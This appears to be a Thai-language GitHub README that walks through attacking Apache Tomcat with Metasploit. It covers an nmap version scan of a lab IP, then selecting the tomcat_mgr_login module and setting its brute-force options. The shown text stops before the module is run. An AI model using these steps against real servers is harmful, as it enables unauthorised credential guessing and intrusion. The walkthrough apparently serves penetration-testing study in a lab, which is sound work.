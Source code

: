 # Attacking-Apache-Tomcat-with-Metasploit

### Metasploit Framework 

> ซึ่งเป็นเครื่องมือที่ใช้สำหรับการทดสอบเจาะระบบ (penetration testing) และการประเมินความปลอดภัยของระบบเครือข่ายและแอปพลิเคชัน

```
msfconsole
```

![msfconsole](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/84f6410d-5ee7-47e9-a7ec-54f8332e15a7)

### Nmap Service Version Detection

> Nmap มี Option ที่ใช้ตรวจสอบและคาดเดา service และเวอร์ชั่นของ service นั้นก็คือ -sV ตามด้วย IP หรือ Host ที่เราต้องการ

```
nmap -sV 192.168.19.175
```

![nmap -sV](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/6f8c730d-a227-44d5-abbf-433092e433af)

### search

> คำสั่ง search ใน Metasploit Framework ช่วยค้นหาโมดูลที่เกี่ยวข้องกับคำสำคัญที่คุณป้อนไป

```
search tomcat
```

![search](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/ecce85cc-adb6-4131-a129-778651be0599)

### use

>use ใน Metasploit Framework ช่วยให้ผู้ใช้สามารถเลือกและใช้โมดูลที่ต้องการในการทดสอบเจาะระบบได้

```
use auxiliary/scanner/http/tomcat_mgr_login 
```

![use](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/32920552-4e06-4e91-b3e0-95fccecb9e99)

### show options

>คำสั่ง show options เมื่อใช้ Metasploit Framework ใช้เพื่อแสดงตัวเลือกและพารามิเตอร์ที่สามารถตั้งค่าสำหรับโมดูลที่เลือก ช่วยให้รู้ว่าต้องกำหนดค่าอะไรบ้างก่อนที่จะรันโมดูลนั้น

```
show options
```

![show op1](https://github.com/Atiwitch15101/Tomcat/assets/159407312/f10b8150-1873-449a-937e-97a1fe381181)

### set

>คำสั่ง set เมื่อใช้ Metasploit Framework ใช้เพื่อกำหนดค่าพารามิเตอร์สำหรับโมดูลที่เลือก

> [!NOTE]
> - `BRUTEFORCE_SPEED` ตั้งความเร็วในการ brute force (1-5, ค่า 5 เร็วสุด)

- `RHOSTS` ระบุเป้าหมายหรือกลุ่มเป้าหมาย (เช่น IP หรือช่วง IP)

- `STOP_ON_SUCCESS` หยุดการโจมตีเมื่อประสบความสำเร็จ (true/false)

- `RPORT` ระบุพอร์ตของเป้าหมาย (เช่น 80 สำหรับ HTTP)

```
set BRUTEFORCE_SPEED 8
```

```
set BRUTEFORCE_SPEED 5
```

```
set RHOSTS 192.168.19.175
```

```
set STOP_ON_SUCCESS true
```

```
set RPORT 8180
```
![set](https://github.com/Atiwitch15101/Tomcat/assets/159407312/0c6d6159-8413-4831-9be7-5ee49929a4a4)



